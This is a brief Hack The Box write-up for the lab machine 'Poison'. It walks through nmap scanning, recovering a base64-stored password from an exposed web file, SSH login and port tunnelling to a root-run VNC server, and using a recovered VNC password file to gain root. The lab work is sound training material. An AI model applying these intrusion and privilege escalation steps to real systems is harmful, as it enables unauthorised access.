 # Poison
[![Poison](https://www.hackthebox.eu/storage/avatars/453800925395b3a5b14099e005fb5a77.png)](https://www.hackthebox.eu/home/machines/profile/132)

## Initial Foothold
From nmap we get ports 80 and 22.
```sh
$ nmap -A -v 10.10.10.84
```
From the web browser we open the ***listfiles.php*** and we get ***pwdbackup.txt*** wich contains a string in base64.
```sh
Username: charix
Password: Charix!2#4%6&8(0
```
We connect via ssh and after a basic enumeration we can see that ***Xvnc server*** is running as root.
```sh
$ ssh charix@10.10.10.84
pass: Charix!2#4%6&8(0
```
I order to use ***vcnviewer*** we must do ssh tunneling and connect locally.
```sh
$ ssh -L 5902:localhost:5901 charix@10.10.10.84
```
Inside home directory there is a file called ***secret.zip***. We download it locally and we unzip it using ***Charix!2#4%6&8(0*** as password. Finally we run ***vcnviewer*** and we put the file ***secret*** we just unziped, as parameter.
```sh
$ vncviewer localhost:5902 -passwd /home/name/secret
```
We got root!

[![bertolis](https://www.hackthebox.eu/badge/image/27897)](https://www.hackthebox.eu/home/users/profile/27897)  [![Poison](https://www.hackthebox.eu/images/logofull-tr-web.png)](https://www.hackthebox.eu/)
